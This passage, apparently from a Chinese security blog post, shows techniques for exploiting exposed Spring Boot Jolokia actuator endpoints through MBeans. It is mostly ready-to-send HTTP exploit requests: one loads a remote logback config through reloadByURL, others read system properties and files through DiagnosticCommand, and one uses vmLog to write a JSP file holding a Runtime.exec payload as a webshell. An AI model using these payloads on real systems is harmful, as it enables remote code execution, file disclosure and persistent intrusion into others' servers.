 ch.qos.logback.classic.jmx.JMXConfigurator  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUD3WVkZ2chrE0SswwqJT42f2TAPY2ibcc1wcicFC5n5kLm7ia5E0mnqrEicg/640?wx_fmt=png&from=appmsg "")  
  
它会远程加载配置并重载，原理跟env RCE的logback jndi一样。  
```
POST /jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 193
{"mbean": "ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator","operation": "reloadByURL", "type": "EXEC", "arguments": ["http://127.0.0.1:8088/example.xml"]}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU75TZVIyYZOsxAgqMzqkicUDswZ9Rg085mb6LQupibbiaNBURO9Jxnjxzgzfh9p9nRj7iby4ic7sM35cPw/640?wx_fmt=png&from=appmsg "")  
  
同理，此方法的上面还有个reloadByFileName，但只能加载本地文件。  
  
  
4，DiagnosticCommand  
  
https://thinkloveshare.com/hacking/ssrf_to_rce_with_jolokia_and_mbeans/  
  
在>=jdk9中，会多一些JVM操作的Mbean。  
  
获取环境变量  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 105

{"mbean": "com.sun.management:type=DiagnosticCommand","operation": "vmSystemProperties", "type": "EXEC",}
```  
  
读取文件信息  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 144

{"mbean": "com.sun.management:type=DiagnosticCommand","operation": "compilerDirectivesAdd", "type": "EXEC", "arguments": ["C:\Windows\win.ini"]}
```  
  
利用vmlog写文件(会携带大量脏数据，基本只能webshell)  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 137

{"mbean": "com.sun.management:type=DiagnosticCommand","operation": "vmLog", "type": "EXEC", "arguments": ["output=D:\\Downloads\\1.jsp"]}
```  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
Content-Length: 56

{ "type": "<% Runtime.getRuntime().exec(\"calc\"); %>",}
```  
```
POST /actuator/jolokia HTTP/1.1
Host: 127.0.0.1:9999
Content-Type: application/json
```
